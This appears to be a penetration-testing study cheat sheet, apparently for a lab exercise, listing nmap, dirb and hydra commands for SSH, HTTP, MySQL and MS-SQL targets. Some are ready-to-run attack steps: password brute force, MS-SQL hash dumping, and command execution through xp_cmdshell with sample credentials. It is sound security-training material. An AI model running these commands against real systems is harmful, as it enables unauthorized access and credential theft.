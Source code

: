 ```bash
nmap --script ssh-hostkey --script-args ssh_hostkey=full 192.201.39.3

# Which authentication method is being used by the SSH server for user “rosa”.
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=rosa" 192.201.39.3
```

### HTTP

http target

```bash
find directorios default
$dirb target

$nmap target -sCV -p80 --script http-headers
- http-enum
- http-methods
- http-webdav-scan

```

### SQL

```bash

$nmap target -sCV -p3306 --script=mysql-empty-password

$nmap target -sCV -p3306 --script=mysql-users --script-args="mysqluser='root', mysqlpass=''"

$nmap target -sCV -p3306 --script=mysql-variables --script-args="mysqluser='root', mysqlpass=''"

$nmap target -sCV -p3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='', mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

#attack

$hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target mysql(protocol)

#WINDOWS

$nmap target -p1433 --script ms-sql-info

$nmap target -p1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433

$nmap target -p1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/common_password.txt

$nmap target -p1433 --script ms-sql-empty-password

$nmap target -p1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query='SELECT * FROM master..syslogins' -oN output

$nmap target -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria

$nmap target -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"

```
